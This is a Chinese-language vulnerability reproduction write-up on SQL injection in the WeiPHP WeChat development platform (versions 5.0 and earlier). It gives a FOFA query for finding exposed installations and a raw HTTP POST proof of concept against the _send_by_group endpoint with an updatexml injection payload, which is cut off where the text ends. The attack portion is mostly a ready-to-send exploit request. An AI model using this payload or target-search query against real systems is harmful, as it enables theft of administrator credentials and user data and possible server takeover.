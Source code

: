 
# WeiPHP 微信开发平台 SQL注入漏洞复现

### 0x01 产品简介

 weiphp 是一个开源，高效，简洁的微信开发平台，基于 oneThink 内容管理框架实现。

### 0x02 漏洞概述

 weiphp 微信开发平台 \_send\_by\_group、 wp\_where、 get\_package\_template等接口处存在 SQL 注入漏洞，攻击者利用此漏洞可获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

### 0x03 影响范围

weiphp <=5.0

### 0x04 复现环境

FOFA：app="WeiPHP"

![4f7d20f99e004da7b395562fad542aee.png](assets/1701826206-2dc6d5c94b01727de0c834d3b333ff44.png)

### 0x05 漏洞复现

**PoC-1**

```cobol
POST /public/index.php/weixin/message/_send_by_group HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Connection: close

group_id[0]=exp&group_id[1]=%29+and+updatexml%281
```
